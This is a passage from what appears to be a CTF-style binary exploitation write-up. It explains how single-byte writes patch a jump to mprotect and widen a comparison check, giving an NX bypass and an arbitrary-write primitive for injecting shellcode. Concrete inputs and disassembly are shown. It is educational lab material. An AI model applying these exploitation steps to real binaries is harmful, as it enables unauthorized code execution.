 Which I still don't know why (fuzzed it), still haven't debugged.

I also found another one way working.


## Break the 2nd mprotect ##

Now that we can send multiples writes, let's make our use of the first mprotect permanent. We can do that by "modyfying" the address of the jump to mprotect. 

Using this input :

400714:7

Which transform :

```
    0x400713:	jmp    0x400520 <mprotect@plt>
```
to :
```
    0x400713:	jmp    0x4005a0
```

Here we jump near a ret by just changing one byte of the lower address.
So it basically "disable" this mprotect :

```
gef> x/10i 0x4005a0
   0x4005a0:	pop    rbp
   0x4005a1:	ret            # end of mprotect
```


## Bypass the allowed char range (0->7) ##

At this point, we are able to :
  
  
  - make any mapped memory page +rwx (easy NX bypass)
  
  - write a value anywhere that will be xored with the value we replace and shifted to the left by 1.
  
  
 This is not enough (or is it ??) to exploit the binary, we need a write-what-where primitive to send a shellcode, because the range is too small, and because we can ;)
 
 By modyfying the cmp instruction to allow any (almost) unsigned integer using this input :
 
 40069d:7
 
 Which modify :
 
 ```
    0x40069b:	cmp    eax,0x7
 ```
  to
  ```
    0x40069b:	cmp    eax,0xffffff87
 ```
 And allows us to write ANY bytes (from 0x0 to 0xff) 
 